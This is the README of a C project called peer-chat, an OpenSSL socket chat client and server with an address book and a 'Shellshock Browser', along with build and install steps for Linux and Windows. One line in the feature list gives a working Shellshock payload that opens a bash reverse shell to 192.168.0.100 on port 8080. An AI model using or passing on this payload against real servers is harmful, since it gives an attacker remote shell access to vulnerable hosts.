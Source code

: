 # peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)

    most Bug free
    
* Addressbook functionality (Windows/Linux)

    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)

    the Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"

# building
* On Linux: make

* On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lwsock32
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99

# install
* On Linux: sudo make install

# uninstall
* On Linux: sudo make uninstall

# clean
* On Linux: make clean
